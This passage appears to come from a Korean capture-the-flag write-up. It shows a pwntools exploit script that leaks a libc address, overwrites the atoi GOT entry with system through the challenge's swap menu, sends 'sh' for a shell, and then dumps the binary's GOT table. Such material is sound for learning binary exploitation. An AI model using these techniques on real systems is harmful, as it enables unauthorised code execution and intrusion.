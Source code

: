 ```python
r.recvuntil('Bye. ')
leak = u64(r.recv(6).ljust(8,'\x00'))
success('libc leak = '+hex(leak))
libc_base = leak - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
#binsh_addr = libc_base + next(libc.search('/bin/sh'))
log.info('libc_base = '+hex(libc_base))
log.info('system_addr = '+hex(system_addr))


#### save system_addr in stack ####
Set(exit_addr, rbp-0x20) # start_main = 0x4008e9 # rbp-0x20
r.sendlineafter('Your choice: \n', '2') # swap

Set(system_addr, 0xaaaaaa) # rbp-0xc0, rbp-0xb8
r.sendlineafter('Your choice: \n', '3') # return main()


#### atoi() -> system() ####
Set(rbp-0xc0, atoi_addr)
r.sendlineafter('Your choice: \n', '2') # swap

r.sendlineafter('Your choice: \n', 'sh') # system("sh")
r.interactive()

'''
.got.plt:0x601000 _GLOBAL_OFFSET_TABLE_ dq offset _DYNAMIC
.got.plt:0x601008 qword_601008    dq 0                    
.got.plt:0x601010 ; __int64 (*qword_601010)(void)
.got.plt:0x601010 qword_601010    dq 0                    
.got.plt:0x601018 off_601018      dq offset _exit         
6295576
.got.plt:0x601020 off_601020      dq offset __isoc99_fscanf
.got.plt:0x601020                                         
6295584
.got.plt:0x601028 off_601028      dq offset puts          
6295592
.got.plt:0x601030 off_601030      dq offset __stack_chk_fail
.got.plt:0x601030                                         
.got.plt:0x601038 off_601038      dq offset printf        
6295608
.got.plt:0x601040 off_601040      dq offset read          
6295616
.got.plt:0x601048 off_601048      dq offset setvbuf       
.got.plt:0x601050 off_601050      dq offset atoi          
6295632
'''
```



## 삽질
